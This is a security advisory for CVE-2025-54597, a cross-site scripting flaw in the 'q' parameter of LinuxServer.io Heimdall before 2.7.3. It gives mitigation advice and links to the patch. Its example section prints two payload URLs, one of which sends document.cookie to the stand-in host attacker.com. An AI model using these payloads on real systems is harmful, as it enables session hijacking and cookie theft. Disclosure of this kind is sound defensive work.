 ## Urgent Security Alert: Critical Cross-Site Scripting (XSS) Vulnerability Discovered in LinuxServer.io Heimdall

A significant security vulnerability has been identified in **LinuxServer.io Heimdall**, an application dashboard. This flaw, classified as a Cross-Site Scripting (XSS) vulnerability, poses a risk to users' data integrity, system security, and overall business operations by potentially allowing unauthorized access and data theft.

Organizations and individuals utilizing Heimdall should take immediate action to mitigate this risk.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-54597**
*   **Affected Software:** **LinuxServer.io Heimdall**
*   **Affected Versions:** All versions prior to **2.7.3**
*   **Technical Cause:** The vulnerability stems from insufficient input validation and output encoding in the handling of the `q` parameter (commonly used for search queries or similar inputs). This allows an attacker to inject malicious client-side scripts into the Heimdall interface. When a legitimate user, including an administrator, views a page containing this injected script, the script executes within their web browser under the context of the Heimdall application.
*   **Example Payload (Illustrative):** An attacker could craft a malicious URL like this:
    `http://your-heimdall-instance/?q=<script>alert('XSS_Exploit')</script>`
    Or a more subtle attempt to steal cookies:
    `http://your-heimdall-instance/?q=<img src=x onerror=this.src='http://attacker.com/log?c='+document.cookie;>`

### Risk Description

Exploitation of this XSS vulnerability could lead to severe consequences, including:

*   **Session Hijacking:** Attackers could steal user session cookies, allowing them to impersonate logged-in users, including administrators, and gain unauthorized access to the Heimdall dashboard and linked applications.
*   **Data Theft:** Sensitive information displayed on the dashboard, or accessible through the user's session, could be exfiltrated.
*   **Malware Distribution:** Malicious scripts could redirect users to phishing sites or attempt to install malware on their systems.
*   **Defacement:** The Heimdall interface could be altered or defaced.
*   **Privilege Escalation:** If an administrator's session is compromised, the attacker could perform administrative actions, modify settings, or add/remove applications, potentially compromising the integrity of your self-hosted environment.

### Who is at Risk?

Any organization, team, or individual running **LinuxServer.io Heimdall** versions **older than 2.7.3** is at immediate risk. This applies to self-hosted instances, including those deployed via Docker or similar containerization technologies.

### Recommendations

**For Website Owners/Administrators:**

*   **Update Immediately:** The most critical action is to update your **LinuxServer.io Heimdall** instance to version **2.7.3** or newer without delay. This version contains the necessary patch to remediate the vulnerability. Follow the official update instructions provided by LinuxServer.io for your specific deployment method.

**For Developers (General XSS Prevention Guidance):**

*   **Input Validation & Sanitization:** Always validate and sanitize all user-supplied input on the server-side. Ensure that no executable code or malicious characters are allowed.
*   **Output Encoding:** Implement robust output encoding for any user-generated content displayed in the HTML, JavaScript, or CSS contexts. This ensures that potentially malicious scripts are rendered as plain text, preventing their execution.
*   **Content Security Policy (CSP):** Employ a strong Content Security Policy (CSP) to restrict the sources from which scripts can be loaded and executed, adding an additional layer of defense against XSS attacks.

### Reference Link

For more technical details on the patch and the associated commit, please refer to the official repository:

[Official Patch Commit on GitHub](https://github.com/linuxserver/Heimdall/commit/d1a96dd752ba30dc56380400dd2587d8abb8e9d1)